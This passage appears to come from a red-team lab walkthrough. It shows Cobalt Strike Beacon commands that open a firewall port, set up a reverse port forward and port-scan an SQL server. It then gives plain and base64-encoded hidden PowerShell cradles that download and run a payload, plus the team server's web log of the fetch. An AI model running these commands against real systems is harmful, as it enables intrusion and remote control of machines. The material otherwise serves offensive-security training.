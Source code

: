 ```
   Subnet Mask . . . . . . . . . . . : 255.255.254.0 | 
   Default Gateway . . . . . . . . . : 10.10.122.1 | 
 |
```

With command execution, we can work towards executing a Beacon payload. &#x20;

As with other servers in the lab, the SQL servers cannot talk directly to our team server in order to download a hosted payload. &#x20;

**Instead, we must setup a reverse port forward to tunnel that traffic through our C2 chain:**

```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```

**Next, host `smb_x64.ps1` at `/b` on the team server.  We know SMB will work because we can validate that port 445 is open on the target SQL server:**

```
beacon> portscan 10.10.122.25 445
(ICMP) Target '10.10.122.25' is alive. [read 8 bytes]
10.10.122.25:445 (platform: 500 version: 10.0 name: SQL-2 domain: DEV)
Scanner module is complete
```

**We can now download and execute the payload, for example:**

```
powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"
```

OR

```
powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=
```

**Keep an eye on your web log so you know when the payload has been fetched:**

```
01/05 15:09:07 visit (port 80) from: 127.0.0.1
	Request: GET /b
	page Serves /home/attacker/cobaltstrike/uploads/smb_x64.ps1
	null
```
